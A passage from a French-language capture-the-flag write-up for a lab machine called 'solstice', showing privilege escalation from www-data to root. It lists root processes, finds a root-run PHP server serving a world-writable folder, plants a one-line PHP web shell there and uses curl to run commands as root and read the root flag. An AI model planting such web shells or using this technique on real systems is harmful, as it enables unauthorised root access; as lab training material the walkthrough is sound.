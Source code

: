 ```python
s.close()
```

Sous `/var/tmp/webserver_2/` je trouve le code servi sur le port 54787, mais l'appli web présente dans le sous dossier `project`, qui correspond normalement à [leefish/filethingie: PHP File Manager](https://github.com/leefish/filethingie), ne répond pas.

## Don't run that as root

En regardant les processus lancés par root c'est plus intéressant :

```
root       378  0.0  0.7 196744  7704 ?        S    09:23   0:00 /usr/bin/php -S 127.0.0.1:57 -t /var/tmp/sv/
root       379  0.0  0.7  24304  7344 ?        S    09:23   0:00 /usr/bin/python -m pyftpdlib -p 21 -u 15090e62f66f41b547b75973f9d516af -P 15090e62f66f41b547b75973f9d516af -d /root/ftp/
```

On a donc un PHP CLI exécuté par root qui sert un dossier dans lequel on peut écrire :

```console
www-data@solstice:/var/tmp$ ls -al sv
total 12K
drwsrwxrwx 2 root root 4.0K Apr  8 12:56 .
drwxrwxrwt 9 root root 4.0K Apr  8 12:39 ..
-rwxrwxrwx 1 root root   36 Jun 19  2020 index.php
```

On s'y met sans plus attendre :

```console
www-data@solstice:/var/tmp$ echo '<?php system($_GET["cmd"]); ?>' > sv/shell.php
www-data@solstice:/var/tmp$ curl "http://127.0.0.1:57/shell.php?cmd=id"
uid=0(root) gid=0(root) groups=0(root)
www-data@solstice:/var/tmp$ curl "http://127.0.0.1:57/shell.php?cmd=ls+/root"
ftp
root.txt
www-data@solstice:/var/tmp$ curl "http://127.0.0.1:57/shell.php?cmd=cat+/root/root.txt"

No ascii art for you >:(

Thanks for playing! - Felipe Winsnes (@whitecr0wz)

f950998f0d484a2ef1ea83ed4f42bbca
```


